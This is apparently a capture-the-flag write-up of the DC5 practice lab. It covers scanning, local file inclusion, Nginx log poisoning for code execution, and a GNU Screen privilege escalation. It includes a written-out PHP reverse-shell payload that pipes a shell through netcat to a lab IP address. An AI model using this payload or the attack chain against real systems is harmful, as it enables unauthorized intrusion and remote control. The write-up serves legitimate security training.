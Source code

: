 # DC5 Offensive Security Community Writeup
## Level: Intermediate

![logo](1.png)

## Scanning
We launch **nmap** with scripts and software versions on all ports.

![](2.png)

## Enumeration

We access the website, review the source code and the different sections, but there is nothing interesting.

![](3.png)

We reviewed the site again, specifically the *"Contact"* section. There we find a contact form, we fill it with arbitrary data and we see that it is sent by GET method.

![](4.png)

If we reload the file without specifying the variable, we see that the copyright year is different, so it is very likely that the application is embedding files through variables (LFI?, Path traversal?).

![](5.png)

We launch the **Wfuzz** tool with a medium dictionary, enumerate a new variable.

![](6.png)

Yes, it is vulnerable to local file inclusion (LFI).

![](7.png)

Previously, we saw in the headers that the server has an **Nginx** deployed, so we load the configuration file and get the paths where it stores logs.

![](9.png)

## Exploitation
Perfect, now we will do some tests to know the file that could help us to execute malicious code.

#### Testing Remote Code Execute (RCE)
![](10.png)

#### Result testing Remote Code Execute (RCE)
![](11.png)

Great, having clear in which file we can evidence code execution, let's make a proof of concept that allows us to execute remote system commands.

#### PoC Log Poisoning + RCE
![](12.png)

#### Result PoC Log Poisoning + RCE
![](13.png)

Perfect! Well, we are not going to complicate and we are going to execute directly a reverse shell, but remember to put a **netcat** on the listen in our Kali.

We read the flag of *user.txt*.

#### Payload
```php
<?php system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.49.204 443 >/tmp/f');?>

```
#### Request with reverse shell code
![](14.png)

#### Result reverse shell code
![](15.png)

## Privilege Escalation
We ran some of our favorite recognition scripts (Ex. linpeas.sh) and listed a "**Screen**" in version 4.5.0.

![](16.png)

This binary has a known exploit that would allow us to escalate root privileges: [GNU Screen 4.5.0 - Local Privilege Escalation](https://www.exploit-db.com/exploits/41154)

In my case, I compiled the necessary files and hosted them on the victim. Once downloaded, I executed the following two commands to escalate privileges to root and read the proof.txt file.
![](17.png)

---
## About

David Utón is Penetration Tester and security auditor for web and mobiles applications, perimeter networks, internal and industrial corporate infrastructures, and wireless networks.

#### Contacted on:

<img src='https://m3n0sd0n4ld.github.io/imgs/linkedin.png' width='40' align='center'> [David-Uton](https://www.linkedin.com/in/david-uton/)
<img src='https://m3n0sd0n4ld.github.io/imgs/twitter.png' width='50' align='center'> [@David_Uton](https://twitter.com/David_Uton)

